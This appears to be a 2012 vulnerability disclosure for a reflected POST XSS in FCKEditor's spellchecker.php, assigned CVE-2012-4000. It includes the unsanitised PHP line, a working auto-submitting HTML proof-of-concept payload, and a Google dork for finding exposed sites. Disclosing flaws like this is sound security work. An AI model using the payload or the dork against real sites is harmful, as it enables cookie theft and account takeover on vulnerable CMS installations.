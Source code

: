 I recently found a reflected POST XSS on a popular web WYSIWYG editor called FCKEditor. Despite is almost end-of-life and replaced with [CKEditor](http://ckeditor.com/) since 2009, FCKEditor is still popular as stand-alone application as embedded in different Wordpress/Joomla/Drupal extensions. 

Today the 2012-06-22, Google counts more than **1,5 billion** of results. A plausbile Google dork filtering out PHP sources could be

[inurl:fck_spellerpages/spellerpages/server-scripts/ -"The following variables"](https://www.google.it/search?q=inurl%3Afck_spellerpages%2Fspellerpages%2Fserver-scripts%2F+-%22The+following+variables%22)

##  vulnerability 

The reflected XSS is injected through `textinputs` POST parameter array, not sanized and printed in line 27:

~~~ { php }
echo "textinputs[$key] = decodeURIComponent(\"" . $val . "\");\n";
~~~

As usual, attackers can exploit the reflected XSS to execute arbitrary HTML and script code in a user's browser session that visit the malicious page, which can be exploited to e.g. steal the cookie of the legitimate user to bypass the CMS authorization. The PoC is CRSF-like due to POST HTTP method. 

~~~ { html }
<html>
<body>
<iframe style="width: 1px; height: 1px; visibility: hidden" name="hidden"></iframe>
  <form method="post" name="sender"
   action="http://vuln.com//fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php" target="hidden">
   <input type="hidden" name="textinputs[]" value='");alert("THIS SITE IS XSS VULNERABLE!");</script><!--' />
  </form>
</body>
<script>document.sender.submit(); </script>
</html>
~~~ 

## CVE

The Common Vulnerabilities and Exposures project (cve.mitre.org) has assigned the name [CVE-2012-4000](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2012-4000) to the vulnerability
